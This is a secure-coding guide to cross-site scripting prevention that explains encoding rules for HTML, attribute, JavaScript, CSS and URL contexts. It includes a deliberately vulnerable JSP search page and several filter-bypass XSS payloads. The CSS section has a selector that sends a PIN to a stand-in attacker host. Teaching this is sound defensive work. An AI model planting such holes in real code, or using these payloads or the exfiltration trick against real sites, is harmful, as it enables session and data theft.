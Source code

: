 # Cross Site Scripting (XSS)

Data (from untrusted source) gets into the application, then this data is later displayed in the website without being _properly_ validated/sanitized/escaped.

## Example

```jsp
<%-- search.jsp --%>
<% String searchParam = request.getParameter("searchParam"); %>
<h2>Search results for <%= searchParam %></h2>
```

Imagine calling it via `http://whatever/search.jsp?searchParam=<script>alert(document.cookies)</script>`

**What to do?**

- *Remove the `<script>` tags!* - `<scrIpt>` works as well

- Use regexp like `/[sS][cC][rR][iI][pP][tT]/` - `<img src=javascript:alert(1)>`

- *remove `javascript:`* - `<img src=jav&#x41;script:alert(1)>`
- *HTML decode, THEN remove* - `<img src=nonexistent onerror=alert(1)>`

... far from easy.

## Prevention

### NEVER insert untrusted data

In a script:

`<script>... NOT HERE...</script>`

Inside a HTML comment:

`<!-- ... NOT HERE ... -->`

As a tag or attribute name:

`<NOTHERE></NOTHERE>`
`<div NOTHERE=something></div>`

Directly into CSS:

`<style>... NOT HERE ...</style>`

These places are almost impossible to escape/sanitize properly. Do not even try.

### ... exceptions

Since sometimes we definitely need data that is coming from untrusted source.

#### HTML context

HTML encode before inserting something into HTML element context

```html
<div>
  ... HTMLENCODED UNTRUSTED DATA HERE ...
</div>
```

It might be sufficient to encode the following characters, to prevent switching into other execution contexts:

- `&` => `&amp;`
- `<` => `&lt;`
- `>` => `&gt;`
- `"` => `&quot;`
- `'` => `&#x27;`

#### HTML Attribute context

```html
<div attr="... ATTRIBUTE ENCODED UNTRUSTED DATA HERE ...">content</div>
```

- Always quote attributes with `"` or `'`. Quoted attributes can be broken only by the corresponding quote, not quoted attributes can be broken out in may ways (with `[space]`, `/`, `|`, ...)
- Encode the corresponding quote in the data
  - `"` => `&#x22;`
  - `'` => `&#x27;`
- Some attributes are capable of executing their content, they should **never** include untrusted data:
  - `href` - `href="javascript:alert(1)"`
  - all event handlers (`onclick`, `onerror`, `onload`, ...)
  - `src` - obviously
  - `style` - CSS context, dangerous

#### JavaScript data

Do not insert untrusted data into JavaScript context.

**BAD** example (from FD):

```jsp
<script>
  window.browseData = <fd:ToJSON value="${browsePotato}"/>; // well, it's not even JSON...
</script>
```

In this example, `browsePotato` contains some URL parameters, like `searchParam`, `grpId`, etc.

This is a proper JS object: `{ searchParam: "</script><script>alert(1)</script>" }`, and is completely OK in a JS file. But in an HTML, the HTML parser breaks the `<script>` tag at the first `</script>`...

Instead, put the HTML escaped JSON (really) data inside of an HTML tag, then read it via JS, and decode it:

```jsp
<script type="application/json-htmlencoded" id="browsePotato">
  <fd:ToEscapedJSON value="${browsePotato}" />
</script>
<script>
  const dataEl = document.getElementById("browsePotato");
  window.browseData = JSON.parse(dataEl.textContent); // `textContent` is unescaped
</script>
```

#### CSS

Do not insert data into CSS context. It's hard to be safe. Use CSS variables, that can be set via JS.

```CSS
/* obvious */
.whatever {
  background-url: "javascript:alert(1)";
}

/* not that obvious */
input.pincode[value="1234"] {
  background: url(https://h4x0r.org/log?pin=1234);
}

/* ... */
```

#### URL parameters

URLencode everthing that goes into URL parameter.

```jsp
<a href="/search.jsp?page=2&searchParam=<%= URLENCODE_THIS %>">Search page 2</a>
```

(It's basically attribute context, but easier to handle.)

#### Need to output untrusted HTML

Use a well maintained sanitizer library, update it regularly.

Examples:

- Java - OWASP Java HTML Sanitizer
- JS - DOMPurify

Don't try to write your own sanitizer, you'll fail.

### Extra protection

- use `HTTPOnly` option for cookies that are not needed by JS
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies
- use proper `CSP` header, it can prevent XSS by disabling inline JavaScripts
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy